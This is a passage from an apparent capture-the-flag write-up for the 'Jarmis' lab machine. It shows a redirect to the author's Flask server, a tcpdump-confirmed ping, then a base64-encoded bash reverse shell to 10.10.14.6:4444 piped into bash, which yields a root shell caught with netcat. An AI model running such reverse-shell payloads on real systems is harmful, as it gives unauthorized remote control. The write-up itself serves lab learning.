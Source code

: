     
    
    [*] Redirecting client 10.10.11.117 to https://10.10.14.6:8443
    

Then Flask:

    
    
    10.10.11.117 - - [23/Sep/2021 12:05:30] "GET / HTTP/1.1" 301 -
    

And finally I see `ping` at `tcpdump`:

    
    
    oxdf@parrot$ sudo tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    12:05:30.903265 IP 10.10.11.117 > 10.10.14.6: ICMP echo request, id 5, seq 1, length 64
    12:05:30.903286 IP 10.10.14.6 > 10.10.11.117: ICMP echo reply, id 5, seq 1, length 64
    

#### Shell

To avoid worrying about special characters, I’ll just encode a shell:

    
    
    oxdf@parrot$ echo 'bash -i >& /dev/tcp/10.10.14.6/4444 0>&1' | base64 
    YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0NDQgMD4mMQo=
    

Now I’ll update the payload in Flask:

    
    
    cmd = "echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0NDQgMD4mMQo='|base64 -d|bash"
    

On sending, I get a connection back with a shell:

    
    
    oxdf@parrot$ nc -lnvp 4444
    Ncat: Version 7.92 ( https://nmap.org/ncat )
    Ncat: Listening on :::4444
    Ncat: Listening on 0.0.0.0:4444
    Ncat: Connection from 10.10.11.117.
    Ncat: Connection from 10.10.11.117:45574.
    bash: cannot set terminal process group (32938): Inappropriate ioctl for device
    bash: no job control in this shell
    root@Jarmis:/var/opt/microsoft/scx/tmp#
    

From there I can grab both `user.txt` and `root.txt`.

## Beyond Root

### Webserver Setup

#### NGINX Config

The webserver is NGINX. Looking at `/etc/nginx/sites-enabled/default`, it’s
single server proxying various paths:
